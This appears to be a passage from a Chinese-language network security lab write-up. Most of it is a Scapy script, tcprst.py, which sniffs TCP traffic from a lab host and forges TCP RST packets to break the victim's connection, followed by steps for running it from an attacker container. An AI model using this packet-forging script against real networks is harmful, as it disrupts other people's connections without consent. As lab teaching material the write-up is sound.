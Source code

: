 ```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
    # 定义一个函数 spoof_pkt，用于伪造并发送TCP重置（RST）包
    ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
    # 创建IP层对象，源地址（src）和目的地址（dst）都与捕获到的数据包相同
    tcp = TCP(sport=23, dport=pkt[TCP].dport, flags="R", seq=pkt[TCP].seq+1)
    # 创建TCP层对象：
    # - 源端口（sport）设为23
    # - 目的端口（dport）与捕获到的数据包的目的端口一致
    # - 标志位（flags）设为 "R"，表示TCP RST（重置）包
    # - 序列号（seq）设为捕获包的序列号加1

    pkt = ip/tcp
    # 将IP层和TCP层组合成一个完整的数据包

    ls(pkt)
    # 显示数据包的详细信息结构（用于调试）

    send(pkt, verbose=0)
    # 发送伪造的TCP RST包，设置verbose=0以避免输出发送日志

f = f'tcp and src host 10.9.0.5'
# 定义过滤条件，仅捕获源IP地址为10.9.0.5的TCP数据包

pkt = sniff(iface='br-832b8642e575', filter=f, prn=spoof_pkt)
# 捕获网络数据包：
# - 捕获到符合条件的数据包后，调用函数 spoof_pkt 对该包进行处理
```

我们先让 $user1$ 连接上 $victim$ :

![2-1](../image/2-1.png)

在 $attacker$ 上运行 `tcprst.py` ：

![2-2](../image/2-2.png)
